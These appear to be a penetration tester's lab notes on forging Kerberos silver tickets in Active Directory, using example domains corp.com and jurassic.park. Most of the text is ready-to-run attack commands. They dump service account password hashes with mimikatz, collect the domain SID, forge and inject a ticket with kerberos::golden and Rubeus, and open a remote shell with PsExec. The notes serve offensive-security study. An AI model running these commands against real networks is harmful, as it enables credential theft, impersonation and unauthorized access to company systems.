 With the service account password or its associated NTLM hash at
hand, we can forge our own service ticket to access the target
resource (in our example, the IIS application) with any
permissions we desire. This custom-created ticket is known as a
#silver ticket* and if the service principal name is used on
multiple servers, the silver ticket can be leveraged against them
all.

We need to collect the following three pieces of information to
create a silver ticket:

- SPN password hash
- Domain SID
- Target SPN

To get the password hash of the SPN we can use a tool like
mimikatz. To get the domain SID we can do ~whoami /user~

# 1. Grab info service account hash with mimikatz
```bash
# Grab Service account hash with Mimikatz
privilege::debug
sekurlsa::logonpasswords

#Grabing SID for domain
whoami /user
# corp\jeff S-1-5-21-1987370270-658905905-1781884369-1105

# Select your SPN
web04.corp.com
```


-----------------------

# 2. Create silver ticket
```bash
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

# Check cached ticket
klist
```

-----------------------

# 3. Use the ticket
```bash
iwr -UseDefaultCredentials http://web04
```

-----------------------

# HACKTRICKS
```bash
#Create the ticket
mimikatz.exe "kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-1349129144-367733775 /rc4:b18b4b218eccad1c223306ea1916885f /user:stegosaurus /service:cifs /target:labwws02.jurassic.park"
#Inject in memory using mimikatz or Rubeus
mimikatz.exe "kerberos::ptt ticket.kirbi"
.\Rubeus.exe ptt /ticket:ticket.kirbi
#Obtain a shell
.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd

#Example using aes key
kerberos::golden /user:Administrator /domain:jurassic.park /sid:S-1-5-21-1339291983-1349129144-367733775 /target:labwws02.jurassic.park /service:cifs /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /ticket:srv2-cifs.kirbi
```
